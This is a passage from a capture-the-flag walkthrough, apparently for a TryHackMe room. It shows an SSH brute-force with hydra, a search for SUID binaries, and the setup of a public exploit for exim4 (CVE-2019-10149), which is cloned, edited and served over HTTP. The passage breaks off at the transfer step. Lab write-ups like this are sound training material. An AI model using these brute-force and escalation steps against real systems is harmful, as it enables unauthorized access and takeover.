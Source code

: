 ```Bash
hydra -l gunter -P file.txt ssh://IP
```

7. With these credentials, we can now log in as the gunter user and get flag4

```Bash
ssh gunter@IP
ls -a
cat flag4
```

![SCREEN32](https://github.com/user-attachments/assets/49f5a1b6-e4a5-4546-b22a-00fe283a56ef)

### Content of flag5 – format is tryhackme{\*\*\*\*\*\*\*\*\*\*\*\*}

1. Now that we've gained access as the gunter user, our goal is to elevate privileges further to the Princess Bubblegum account. Let's begin by identifying potential privilege escalation vectors by searching for SUID binaries (files that execute with the owner's permissions)
   - The results show several SUID binaries, but `/usr/sbin/exim4` stands out as unusual and potentially exploitable. Exim4 is a mail transfer agent (MTA) that typically doesn't need SUID permissions

```Bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN33](https://github.com/user-attachments/assets/354e09ce-8bbf-4cf7-9d96-7bcc1fba3d95)

2. After researching online, we discover that this specific version of exim4 is vulnerable to CVE-2019-10149, a remote command execution vulnerability. Before exploiting, we need to determine which port exim4 is running on by checking its configuration
   - The configuration file reveals the mail server is running on port 60000

```Bash
cat /etc/exim4/update-exim4.conf.conf
```

![SCREEN34](https://github.com/user-attachments/assets/5221fbf1-27ed-4472-bba6-39cd30b013fe)

3. Let's download an existing exploit from GitHub to leverage this vulnerability. We'll clone the repository on our attacking machine and modify the exploit to target the correct port
   - In the wizard.py file, we need to change the default port from 25 to 60000 to match our target's configuration

```Bash
git clone https://github.com/AzizMea/CVE-2019-10149-privilege-escalation exim4
cd exim4
nano wizard.py
```

![SCREEN35](https://github.com/user-attachments/assets/1c7067b3-ea46-44de-9fa3-46bf1130ecef)

4. Now we need to transfer the exploit to the target machine. Let's start a Python HTTP server on our attacking machine to host the exploit file

```Bash
python -m SimpleHTTPServer
```

